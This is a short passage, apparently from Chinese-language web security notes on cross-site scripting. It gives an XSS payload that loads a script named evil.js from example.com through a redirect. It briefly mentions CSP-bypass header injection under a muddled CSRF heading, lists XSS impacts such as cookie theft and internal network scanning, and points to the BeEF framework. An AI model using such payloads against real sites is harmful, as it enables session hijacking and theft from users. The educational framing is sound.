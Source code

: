 payload:`http://example.com/xss.php?input=<script src="http://example.com/a/redirect.php?url=http://example.com/b/evil.js"></script>`
4. [[CSRF|CSRF]]绕过
在HTTP响应头中注入\[CSRF\]\[CSRF\]，将CSP头部分割至HTTP响应体中，这样注入的XSS代码就不受影响了
### 6.8 危害与利用技巧
- 盗取用户Cookie信息，伪造用户身份
- 与浏览器DOM对象进行交互，执行受害者所有可以执行的操作
- 获取网页源码
- 发起HTTP请求
- 使用HTML5 Geolocation API获取地理位置信息
- 使用WebRTC API获取信息
- 发起HTTP请求对内网主机进行扫描，对存在漏洞的主机进行攻击
- ...

XSS漏洞利用平台：[BeEF（The Browser Exploitation Framework）](https://github.com/beefproject/beef/)包含大量可用的XSS代码

